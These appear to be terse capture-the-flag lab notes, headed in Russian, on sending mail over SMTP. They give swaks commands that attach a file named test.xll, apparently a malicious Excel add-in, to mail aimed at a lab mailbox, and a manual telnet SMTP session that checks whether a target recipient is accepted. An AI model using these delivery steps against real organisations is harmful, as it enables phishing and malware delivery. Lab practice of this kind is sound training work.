 # MAIL
  Отправка по smtp
  
  swaks --from amra@axlle.htb --to accounts@axlle.htb --body "Hello" --header "Hello" --attach @test.xll

  swaks -s 10.10.11.21 -f maxxxx@axlle.htb -t accounts@axlle.htb --attach @test.xll


///
telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
hello ppp.htb
503 Bad sequence of commands
HELLO plessd.htb
503 Bad sequence of commands
helo bab.htb
250 Hello.
MAIL FROM <fuck@fuck.com>
550 Invalid syntax. Syntax should be MAIL FROM:<mailbox@domain>[crlf]
mail from: <fuck@fuck.com>
250 OK
rcpt to: <nico@megabank.com>
250 OK
////
